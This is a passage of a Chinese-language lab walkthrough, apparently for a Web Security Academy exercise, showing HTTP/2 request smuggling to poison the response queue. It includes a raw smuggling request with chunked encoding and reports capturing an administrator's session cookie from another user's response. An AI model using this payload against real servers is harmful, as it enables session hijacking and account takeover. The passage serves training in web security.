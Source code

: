 [![](assets/1705287960-be69b6c0f8ebc090c4bde6aef815fd28.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103958-b649f26a-b02a-1.png)  
发送的第二个请求会收到一个 404 响应，由此可以确认我们已经让后端将后续请求附加到走私的前缀中去

[![](assets/1705287960-5f3a61dd5f4c5ace3ed6b5444650ac9f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104010-bd430c78-b02a-1.png)  
Step 2：在 Burp Repeater 中构造以下请求将一个完整的请求走私到后端服务器，需要注意的是这两个请求中的路径都指向一个不存在的路径，这意味着请求将总是得到 404 响应，一旦我们成功毒化了响应队列，那么此时便更容易识别到成功捕获的其他用户的响应 (非 404 响应)

```plain
POST / HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
```

[![](assets/1705287960-065ab2e9651f809c0b7ea8532b9f192a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104030-c95ab51a-b02a-1.png)  
随后我们会捕获到包含管理员新的登录后会话 cookie 的 302 响应

